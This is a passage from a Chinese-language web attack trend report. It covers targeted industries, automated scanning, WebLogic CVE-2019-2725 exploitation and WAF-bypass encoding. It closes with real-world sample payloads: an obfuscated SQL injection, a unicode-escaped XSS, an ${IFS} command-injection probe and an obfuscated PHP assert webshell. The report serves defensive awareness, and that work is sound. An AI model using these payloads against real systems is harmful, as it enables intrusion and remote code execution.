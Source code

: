 ![image-20201224114109390](https://imgoss.xgss.net/picgo/image-20201224114109390.png?aliyun)

### 重点行业分布

从行业来看，攻击主要集中在互联网、科研教育、租赁和商务服务、电商4个行业，攻击总量占比超过了90%，这也跟目前这4个行业的请求占比基本对应。

![image-20201224114154227](https://imgoss.xgss.net/picgo/image-20201224114154227.png?aliyun)

## 攻击手法剖析

### 攻击流量特征

在针对Web服务的攻击中，扫描器及各类自动化攻击工具占据绝大部分比例。根据当前的数据保守计算，在所有针对Web服务的攻击流量中，自动化工具占比超过70%。这些工具的攻击方式涵盖了目录扫描、SQL注入、XSS、命令执行、漏洞探测等多种威胁类型。

![image-20201224114227059](https://imgoss.xgss.net/picgo/image-20201224114227059.png?aliyun)

图示是攻击者最常探测的部分敏感目录文件。其中包括一些Web框架或服务器的默认配置文件，也包括一些攻击者想要螳螂捕蝉，黄雀在后的尝试较为常见的Webshell文件名称。



![image-20201224114307773](https://imgoss.xgss.net/picgo/image-20201224114307773.png?aliyun)

### 重点攻击目标

![image-20201224114400277](https://imgoss.xgss.net/picgo/image-20201224114400277.png?aliyun)

其中WebLogic Server远程命令执行(CVE-2019-2725)的拦截数量最多，从2019年4月漏洞爆发到年末攻击拦截数量共计851684次，之所以该漏洞攻击次数较多的原因是WebLogic Server远程命令执行(CVE-2019-2725)漏洞利用了XMLDecoder，攻击协议使用的是http协议，无需出网，所以比起其它WebLogic Server漏洞利用条件很低，因此成为很多挖矿、勒索程序的主要利用漏洞。值得一提的是，WebLogic Server是美国甲骨文（Oracle）公司开发的一款适用于云环境和传统环境的应用服务中间件，被广泛应用于保险、证券、银行等金融领域，所以这些领域的客户在使用WebLogic Server部署网站业务时，请及时购买Oracle官方账号更新补丁，以防被黑客入侵。经过观测值得一提的现象是，每次Web漏洞被披露后，当安全研究员公开PoC的2-3天后就开始出现大规模的互联网扫描行为。

另外，国内主流OA系统、泛微OA系统也多次爆发远程命令执行和敏感信息泄漏漏洞，国内客户受影响较多，建议国内使用泛微OA系统的客户尽快升级，尽量不要把OA系统开放在互联网上，以防止被黑客攻击造成勒索和数据泄漏。

### 攻击变形

随着WAF对网站的防护越来越普及，针对基础Web攻防来说，利用诸如MySQL、JavaScript、Html语言特性进行各种编码、变形，从而绕过WAF防护的攻击payload也越来越多，攻防是一个持续对抗升级的过程。根据阿里云安全团队的观察发现，当前已有超过1/3的攻击数据采用了不同程度或类型的编码、变形手段，以期绕过安全防护，其中甚至不乏使用多维度的复合变形、编码手段实施攻击。目前云
上已经发现的不同类型攻击的绕过比例如下图所示：

![image-20201224114513720](https://imgoss.xgss.net/picgo/image-20201224114513720.png?aliyun)

例如： 对于x s s 弹窗攻击行为， 现在越来越来越多攻击p a y l o a d 会进行编码进行攻击：
alert-->\u0061\u006c\u0065\u0072\u0074，传统WAF或者IPS设备只会对alert这样的特征关键字拦截，但是黑客也会了解WAF或者IPS设备防御原理，从而针对性的使用不同语言特殊用法进行绕过防护设备攻击。下面是一些真实的案例攻击：

```
·x=1 /*!10000union*//**/select 1,2,3
·x=<script>\u0061lert(1)</script>
·x=nslookup${IFS}abcdefg.xxx.com
·x=<?php $func = '';$arr = array('a','s','s','e','r','t');for($i=0;$i<count($arr);$i++) {$func .= $arr[$i];}
$func($_REQUEST['cmd']);
```
